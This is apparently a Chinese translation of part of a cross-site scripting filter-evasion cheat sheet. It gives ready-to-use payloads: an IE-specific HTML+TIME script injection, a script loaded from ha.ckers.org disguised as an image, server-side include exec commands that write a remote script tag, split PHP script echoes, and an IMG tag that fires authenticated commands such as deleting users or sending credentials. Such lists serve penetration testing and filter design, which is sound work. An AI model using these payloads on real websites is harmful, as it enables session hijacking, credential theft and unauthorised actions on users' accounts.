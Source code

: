 它展示的 Grey Magic 是怎样攻击 Hotmail 和 Yahoo!的。它是仅仅可以工作在ie和使用了ie渲染引擎的Netscape 8.1。并且这段代码需要放在html域body标签之间。

```
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>

```

* * *

简单的修改字符去绕过过滤器对 ".js"的过滤
-----------------------

你可以重命名你的javascript文件为一个图片作为xss向量

```
<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>

```

* * *

SSI (服务器端包含)
------------

这需要SSI被安装在服务器端去使用这个xss向量。但可能我并不需要提及这点，因为如果你可以运行命令在服务器端，那么毫无异味会有更加严重的问题存在。

```
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"-->

```

* * *

PHP
---

需要php被安装在服务器端去使用这个xss向量。同样的，如果你可以运行恩任何远程脚本，那么将会有更加严重的问题。

```
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>

```

* * *

嵌入命令的IMG
--------

它是工作于那些需要用户认证后才可以执行命令的当前域页面。它将可以创建删除用户（如果访问者是管理员），或是寄送某些凭证等等，虽然他是较少被使用但是是非常有用的。

```
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">

```
